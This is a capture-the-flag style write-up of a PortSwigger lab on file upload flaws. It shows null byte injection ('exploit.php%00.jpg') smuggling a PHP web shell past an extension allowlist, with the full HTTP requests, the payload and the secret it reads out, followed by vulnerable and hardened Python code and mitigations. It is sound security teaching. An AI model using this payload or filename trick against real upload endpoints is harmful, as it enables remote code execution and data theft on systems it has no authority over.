




# Lab 05: Web Shell Upload via Obfuscated File Extension

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — Null Byte Injection to Truncate File Extension Validation

## Vulnerability Summary
The application validates uploaded file extensions and only permits `.jpg` and `.png` files. However, the validation logic is vulnerable to null byte injection (`%00`). By supplying a filename of `exploit.php%00.jpg`, the validator sees the extension as `.jpg` (passes), but the underlying file system or C-based string handling truncates the filename at the null byte, storing the file as `exploit.php`. When the file is subsequently requested, Apache executes it as PHP, returning the contents of `/home/carlos/secret`.

## Attack Methodology

### Step 1: Attempt Direct PHP Upload (Blocked)
Uploaded `exploit.php` with `Content-Type: application/x-php`. Server responded:

```http
HTTP/2 403 Forbidden
Sorry, only JPG & PNG files are allowed
```

The extension blacklist/whitelist blocks `.php` directly.

### Step 2: Null Byte Injection in Filename
Modified the `filename` parameter in `Content-Disposition` to inject a URL-encoded null byte between the PHP extension and a permitted `.jpg` extension:

```http
POST /my-account/avatar HTTP/2
Host: 0a74001a0413a31780077163009800b7.web-security-academy.net
Cookie: session=j9V3WL4RTICVEYwuwXHqYuWoWFHz92ow
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5Mrp82VUeMsCyqOm

------WebKitFormBoundary5Mrp82VUeMsCyqOm
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundary5Mrp82VUeMsCyqOm
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary5Mrp82VUeMsCyqOm
Content-Disposition: form-data; name="csrf"

kjY2w1wbWfXd5CyBA1f1uedUUxKhZ4nV
------WebKitFormBoundary5Mrp82VUeMsCyqOm--
```

Response:

```http
HTTP/2 200 OK
Content-Length: 132

The file avatars/exploit.php has been uploaded.
```

The validator read the extension as `.jpg` (passes the whitelist). The server stored the file as `exploit.php` — the null byte truncated everything after it.

### Step 3: Execute the Web Shell

```http
GET /files/avatars/exploit.php HTTP/2
Host: 0a74001a0413a31780077163009800b7.web-security-academy.net
Cookie: session=j9V3WL4RTICVEYwuwXHqYuWoWFHz92ow
```

Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 32

mBXEg0QzQawvIcgaBOQxR8AschMZcXvH
```

PHP executed, secret returned. Lab solved.









## Technical Root Cause

### Vulnerable Validation (String Split on Last Dot)
```python
def upload_avatar(request):
    file = request.FILES['avatar']
    filename = file.name  # e.g. "exploit.php%00.jpg" after URL decode = "exploit.php\x00.jpg"

    ext = filename.rsplit('.', 1)[-1].lower()  # splits on last dot → "jpg" ✅ passes
    if ext not in {'jpg', 'png'}:
        return HttpResponseForbidden('Sorry, only JPG & PNG files are allowed')

    # C-based file write truncates at null byte → stored as "exploit.php"
    save_path = f'/var/www/files/avatars/{filename}'
    with open(save_path, 'wb') as f:
        f.write(file.read())
```

The null byte (`\x00`) is a string terminator in C. When the filename is passed to a C library function (e.g., `fopen`), everything after `\x00` is ignored — the file is written as `exploit.php` while the validator saw `exploit.php\x00.jpg`.

### Secure Validation
```python
import os

def upload_avatar(request):
    file = request.FILES['avatar']
    # Strip null bytes before any processing
    filename = file.name.replace('\x00', '')
    # Use basename to prevent path traversal
    filename = os.path.basename(filename)

    ext = os.path.splitext(filename)[1].lower()
    if ext not in {'.jpg', '.jpeg', '.png'}:
        return HttpResponseForbidden('Only image files are allowed')

    # Validate magic bytes, not just extension
    header = file.read(8)
    file.seek(0)
    if not (header[:3] == b'\xff\xd8\xff' or header[:8] == b'\x89PNG\r\n\x1a\n'):
        return HttpResponseForbidden('Invalid image content')

    save_path = os.path.join(UPLOAD_DIR, filename)
    with open(save_path, 'wb') as f:
        f.write(file.read())
```

## Impact
- **Whitelist Bypassed via Null Byte**: A strict extension whitelist (only `.jpg`/`.png`) is completely defeated by a single `%00` injection
- **Remote Code Execution**: The stored `.php` file is executed by Apache on request
- **Arbitrary File Read / Full RCE**: The shell can read any file accessible to the web server process

**Severity: Critical**

## Proof of Concept

```
POST /my-account/avatar
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Then:
```
GET /files/avatars/exploit.php
→ mBXEg0QzQawvIcgaBOQxR8AschMZcXvH
```

## Key Takeaways
1. **Strip Null Bytes Before Validation**: Any null byte (`\x00`, `%00`) in a filename must be rejected or stripped before extension checking. A null byte in a filename is never legitimate and is always an attack signal.
2. **Validate the Full Filename, Not Just the Last Extension**: Attackers can stack extensions (`exploit.php.jpg`), inject null bytes (`exploit.php%00.jpg`), or use Unicode tricks. Validate the entire filename after full normalization.
3. **Magic Byte Inspection Is a Necessary Layer**: Extension checks alone are insufficient. Inspecting the actual file header bytes (JPEG: `FF D8 FF`, PNG: `89 50 4E 47`) ensures the content matches the claimed type regardless of filename manipulation.
4. **Rename Files Server-Side**: Generating a UUID-based filename eliminates all filename-based attacks entirely — null bytes, traversal, double extensions, and obfuscation all become irrelevant.

## Mitigation

### Strip Null Bytes
```python
filename = request.FILES['avatar'].name.replace('\x00', '').replace('%00', '')
```

### Allowlist + Magic Bytes
```python
import magic
mime = magic.from_buffer(file.read(2048), mime=True)
assert mime in {'image/jpeg', 'image/png'}
```

### Rename to UUID
```python
import uuid
safe_name = f'{uuid.uuid4()}.jpg'
```

## References
- [PortSwigger — Web Shell Upload via Obfuscated File Extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP — Null Byte Injection](https://owasp.org/www-community/attacks/Null_Byte_Injection)
- [CWE-626: Null Byte Interaction Error](https://cwe.mitre.org/data/definitions/626.html)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-13*  
*Writeup by vibhxr*
